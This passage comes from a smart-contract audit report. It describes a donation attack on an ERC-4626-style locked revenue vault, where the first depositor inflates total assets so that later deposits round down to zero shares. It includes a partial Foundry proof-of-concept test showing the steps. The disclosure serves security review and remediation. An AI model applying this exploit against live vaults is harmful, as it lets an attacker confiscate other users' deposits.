 
## Medium Findings

### 1. Medium - Vault may be susceptible to donation attack (securerodd)

When a user deposits into the vault, the amount of shares they will be issued is calculated by [multiplying the deposited assets by a ratio of the existing shares to current assets](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L209). The result of this calculation is then rounded down, following the [ERC specifications](https://eips.ethereum.org/EIPS/eip-4626#security-considerations). The problem arises when the value of `totalAssets()` is manipulated to create unfavorable rounding for new users depositing into the vault at the benefit of users who already own shares of the vault. With sufficient capital and a gap in time between the first and second deposit, the first depositor in the vault may be able to leverage a donation attack to prevent future users from receiving any shares for their deposits.

#### Technical Details

The first user to call [`deposit()`](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L99) on the GovernanceLockedRevenueDistributionToken.sol contract is [issued the same quantity of shares as the underlying assets they provide](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L209). A user can abuse this to deposit a single quantity of assets in return for one share, setting the `supply` to 1. This same user could then send a large donation of underlying assets to the vault through a direct transfer and call the [`updateVestingSchedule()`](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/src/LockedRevenueDistributionToken.sol#L173) function to begin increasing the `totalAssets()` value. The ability to call `updateVestingSchedule()` after a donation is a requisite for this attack due to the `totalAssets()` value [relying on the `issuanceRate`](https://github.com/GETProtocolDAO/locked-revenue-distribution-token/blob/ab272ced94d6bc8cc1ded2664408a3fa7ce67128/lib/revenue-distribution-token/contracts/RevenueDistributionToken.sol#L271). The required capital for a successful donation attack will diminish over the course of a 14 day period. The below POC can be added to Compound.t.sol to show the donation amount needed to round another depositor's share issuance to 0 after 1 day has passed between deposits:
```solidity
function testDonationAttack() public {
    // after set up, allow alice to withdraw all but a dust amount from the vault
    // we warp ahead in time to avoid withdrawal penalties to ensure the vault is left with only dust
    vm.startPrank(alice);
    uint256 allButDust = 1 ether - 1;
    vault.createWithdrawalRequest((allButDust));
    uint256 afterWithdrawalPenalties = start + 26 weeks;
    vm.warp(afterWithdrawalPenalties);

    // execute the withdrawal request
    vault.executeWithdrawalRequest(0);
    vm.stopPrank();

    // print out the shares that would be minted from 1 ether
    console.log("1 ether deposit before donation attack yields _%s_ shares.", vault.previewDeposit(1 ether));

    // provide bob with starting capital
    asset.mint(bob, 14 ether + 1);
    
    // bob performs the donation. With a 1 day wait, it will require 14 times the capital of the other user to issue 0 shares
    // this is because the vesting schedule follows a linear issuance mechanism over the course of 14 days
    vm.startPrank(bob);
    asset.transfer(address(vault), 14 ether + 1);
```